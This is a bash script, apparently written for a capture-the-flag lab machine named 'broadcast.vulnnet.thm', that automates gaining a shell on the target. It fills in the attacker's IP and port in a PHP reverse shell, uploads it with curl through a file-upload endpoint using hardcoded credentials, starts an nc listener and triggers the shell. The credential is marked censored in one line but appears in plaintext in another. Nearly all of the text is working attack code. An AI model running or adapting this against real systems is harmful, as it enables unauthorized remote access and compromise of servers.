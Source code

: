 ```bash
#!/bin/bash

#Colors
greenColor="\e[0;32m\033[1m"
endColor="\033[0m\e[0m"
redColor="\e[0;31m\033[1m"
blueColor="\e[0;34m\033[1m"
yellowColor="\e[0;33m\033[1m"
turquoiseColor="\e[0;36m\033[1m"
grayColor="\e[0;37m\033[1m"

function ctrl_c(){
	echo -e "\n\n${redColor}[!] Exiting...${endColor}\n"
	exit 1
}

trap ctrl_c INT

declare -r ip=$1
declare -r port=$2
declare -r developers_credentials="developers:9<***CENSORED***>s" # <- CHANGE THIS

function helpPanel(){
	echo -e "\n${yellowColor}[${endColor}${redColor}!${endColor}${yellowColor}] Use${endColor} ${turquoiseColor}$0 ${endColor}${redColor}<${endColor}${grayColor}YOUR_IP${endColor}${redColor}> <${grayColor}PORT${redColor}>${endColor}"
	exit 1
}

function uploadYgainShell(){
	tput civis
	echo -e "\n${yellowColor}[${endColor}${blueColor}*${endColor}${yellowColor}] Uploading the reverse shell..."

	cp /usr/share/webshells/php/php-reverse-shell.php . && cat php-reverse-shell.php | sed 's/127.0.0.1/'$ip'/' | sed 's/1234/'$port'/' > shell.php
	file_name=$(curl -s -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u "$developers_credentials" | grep "file_name" | awk '{print $3}' FS=":" | grep -oP "\".*?\"" | head -n 1 | tr -d '"')

	if [ "$(echo $?)" == "0" ]; then
		echo -e "\n${yellowColor}[${endColor}${greenColor}+${endColor}${yellowColor}] Shell uploaded correctly${endColor}" && sleep 0.5
		echo -e "\n${yellowColor}[${endColor}${blueColor}*${endColor}${yellowColor}] Waiting for connection on port $2${endColor}" && sleep 0.5

		qterminal -e nc -nlvp $port &
        	disown; rm php-reverse-shell.php shell.php
		echo -e "\n${yellowColor}[${endColor}${greenColor}+${endColor}${yellowColor}] Gaining shell as www-data user${endColor}\n" && curl -s "http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/"$file_name".php" --user "developers:9972761drmfsls" > /dev/null 2>&1 &
        		if [ "$(echo $?)" != "0" ]; then
        			echo -e "\n${redColor}[x] Connection couldn't be established${endColor}"
        			tput cnorm; exit 1
        		fi
	else
		echo -e "\n${redColor}[x] An error was ocurred${endColor}"
		exit 1
	fi
	tput cnorm
}

#----------------------------------------------->
```